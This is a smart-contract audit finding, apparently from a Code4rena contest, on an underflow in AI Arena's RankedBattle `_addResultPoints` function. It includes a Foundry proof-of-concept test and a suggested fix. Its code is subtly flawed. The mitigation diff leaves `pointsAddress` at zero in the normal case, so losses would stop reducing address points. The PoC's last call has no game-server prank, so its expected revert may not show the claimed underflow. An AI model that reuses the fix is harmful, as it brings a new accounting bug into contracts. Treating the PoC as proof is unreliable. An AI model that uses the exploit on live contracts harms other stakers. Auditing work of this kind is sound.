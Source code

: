 title: Any User can cause `_addResultPoints` function to revert on underflow if accumulatedPointsPerFighter != accumulatedPointsPerAddress in that current round

links:
https://github.com/code-423n4/2024-02-ai-arena/blob/cd1a0e6d1b40168657d1aaee8223dc050e15f8cc/src/RankedBattle.sol#L322-L349
https://github.com/code-423n4/2024-02-ai-arena/blob/cd1a0e6d1b40168657d1aaee8223dc050e15f8cc/src/RankedBattle.sol#L472-L490

## Impact
Any player can prevent deduction of points to zero and therefore gain $NRN distributed at the end of the round. They will also avoid having their stake put at risk in any further losses until their points are reduced to zero. It should be noted that this vulnerability can occur naturally as well while users are playing the game.

## Vulnerability details
After a fight has taken place on the game server, the results are pushed onto the blockchain with the `updateBattleRecord()` function. After that if the user has staked their $NRN for that round the results are further pushed to the `_addResultPoints` function. The problem occurs here where the points are supposed to deducted if the fighter NFt has lost a fight, if the address of the nft owner has multiple NFTs fighting, its possible to cause the `accumulatedPointsPerAddress[fighterOwner][roundId] -= points` to underflow thereby resulting in the function reverting.

## Proof of Concept
To produce the scenario conducive to this attack we will make a player have 2 fighter NFTs with 10 $NRN and 5 $NRN staked on each one respectively for that round. We will also assume a gain/loss of 20 of their `eloFactor` upon every win/loss to make this more simple.

What will hapeen in this POC is that the first NFT will win their fight and gain points, then the second NFT will lose their fight with a less staking factor so therefore lose less points.
This will cause the `accumulatedPointsPerFighter[tokenId][roundId]` and `accumulatedPointsPerAddress[fighterOwner][roundId]` to have less points than `accumulatedPointsPerFighter`. When the first NFT loses now the `accumulatedPointsPerAddress[fighterOwner][roundId]` will underflow and revert when the `_addResultPoints` function is called.

This code can be used in the RankedBattle.t.sol test file and has been made to similarly reflect the test of the `testUpdateBattleRecordPlayerWonBattle`.

```solidity
    /////////////////////////////////////////////////
    /////////////////// POC /////////////////////////
    /////////////////////////////////////////////////

    function testUpdateBattleRecordExploit() public {
        address player = vm.addr(3);
        _mintFromMergingPool(player);
        _mintFromMergingPool(player);
        _fundUserWith4kNeuronByTreasury(player);
        vm.prank(player);
        _rankedBattleContract.stakeNRN(10 * 10 ** 18, 0);
        assertEq(_rankedBattleContract.amountStaked(0), 10 * 10 ** 18);
        vm.prank(player);
        _rankedBattleContract.stakeNRN(5 * 10 ** 18, 1);
        assertEq(_rankedBattleContract.amountStaked(1), 5 * 10 ** 18);
        vm.prank(address(_GAME_SERVER_ADDRESS));
        _rankedBattleContract.updateBattleRecord(0, 50, 0, 1520, true);
        vm.prank(address(_GAME_SERVER_ADDRESS));
        _rankedBattleContract.updateBattleRecord(1, 50, 2, 1500, true);
        vm.expectRevert();
        _rankedBattleContract.updateBattleRecord(0, 50, 2, 1480, true);
        assertEq(_rankedBattleContract.accumulatedPointsPerAddress(player, 0) > 0, true);
    }
```


## Tools Used
Manual review.

## Recommended Mitigation Steps
To mitigate this there should be another `points` variable to deduct the `accumulatedPointsPerAddress[fighterOwner][roundId]` to zero if `points > accumulatedPointsPerAddress[fighterOwner][roundId]`.

Make these changes to the `_addResultPoints()` function.

```diff
} else if (battleResult == 2) {
            /// If the user lost the match
+            uint256 pointsAddress;
            /// Do not allow users to lose more NRNs than they have in their staking pool
            if (curStakeAtRisk > amountStaked[tokenId]) {
                curStakeAtRisk = amountStaked[tokenId];
            }
            if (accumulatedPointsPerFighter[tokenId][roundId] > 0) {
                /// If the fighter has a positive point balance for this round, deduct points 
                points = stakingFactor[tokenId] * eloFactor;
                if (points > accumulatedPointsPerFighter[tokenId][roundId]) {
                    points = accumulatedPointsPerFighter[tokenId][roundId];
                }
+               if (points > accumulatedPointsPerAddress[fighterOwner][roundId]) {
+                   pointsAddress = accumulatedPointsPerAddress[fighterOwner][roundId];
+               }

                accumulatedPointsPerFighter[tokenId][roundId] -= points;
        
-               accumulatedPointsPerAddress[fighterOwner][roundId] -= points;
+               accumulatedPointsPerAddress[fighterOwner][roundId] -= pointsAddress;

                totalAccumulatedPoints[roundId] -= points;
```
